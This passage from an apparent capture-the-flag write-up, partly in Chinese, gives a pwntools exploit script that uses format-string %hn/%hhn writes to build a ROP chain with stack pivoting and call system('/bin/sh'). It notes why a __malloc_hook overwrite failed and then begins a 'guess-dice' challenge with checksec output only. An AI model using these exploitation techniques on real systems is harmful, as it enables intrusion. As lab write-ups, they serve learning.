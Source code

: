 ```python

rbp1 = 15
rbp2 = 43
roploc = heap + 0x6a0
leave_ret = code + 0x12b2
pop_rdi_ret = code + 0x1343
ret = code + 0x101a

def write_to_stack(target, value):
    r.sendline("1"*0x70+f"%s")
    r.recvuntil('%s')
    
    needed = str( count(target & 0xffff, 0x81) ).rjust(5, '0')
    r.sendline("1"*0x70 + f"%s-%{needed}c%{rbp1}$hn")
    r.recvuntil('%s')
    r.sendline("1"*0x70+f"%s")
    r.recvuntil('%s')

    for i in range(8):
        needed = str( count(target+i & 0xff, 0x80) ).rjust(3, '0')
        r.sendline("2"*0x70 + f"%s-%{needed}c%{rbp1}$hhn")
        r.recvuntil('%s')
        r.sendline("2"*0x70+f"%s")
        r.recvuntil('%s')

        pval = p64(value)[i]
        needed = str( count(pval & 0xff, 0x80) ).rjust(3, '0')
        r.sendline("3"*0x70 + f"%s-%{needed}c%{rbp2}$hhn")
        r.recvuntil('%s')
        r.sendline("3"*0x70+f"%s")
        r.recvuntil('%s')

rop = b'\xff'*0x400 + p64(heap+0xb00) + p64(pop_rdi_ret) + p64(binsh) + p64(ret) + p64(_system) + p64(heap + 0x800)
write_to_stack(stack-0x10, roploc)
write_to_stack(stack-0x8, leave_ret)
input()
r.sendline(rop)
r.interactive()
```

一開始嘗試寫 `__malloc_hook` one gadget，並且透過 `$hhn` 控制輸出的大小，但是 `printf` 內部還是會使用到 `malloc()`，造成 `__malloc_hook` 還沒寫完就被執行，後來就只能乖乖走 ROP + stack pivoting。



### guess-dice

```
// file
guess-dice: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=d6346b46df643ff52444290272f38ca6ceab5eb1, for GNU/Linux 3.2.0, not stripped

// check
[*] '/home/u1f383/r2s/dice/guess-dice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

